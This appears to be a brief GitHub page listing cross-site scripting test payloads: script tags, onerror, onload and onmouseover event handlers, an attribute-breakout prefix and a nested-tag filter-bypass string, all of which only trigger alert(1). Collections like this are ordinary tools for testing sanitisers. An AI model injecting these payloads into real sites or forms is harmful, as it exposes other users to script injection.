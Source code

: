 # -script-alert-1-script-img-src-x-onerror-alert-1-img-svg-onload-alert-1-svg-di
">'>&lt;script>alert(1);&lt;/script>&lt;img src="x" onerror="alert(1)">&lt;/img>&lt;svg onload="alert(1)">&lt;/svg>&lt;div onmouseover="alert(1)">here&lt;/div>

"><script>alert(1);</script><img src="x" onerror="alert(1)"></img>
1
1
1
1

<sc<script>ript>alert()</sc</script>ript>
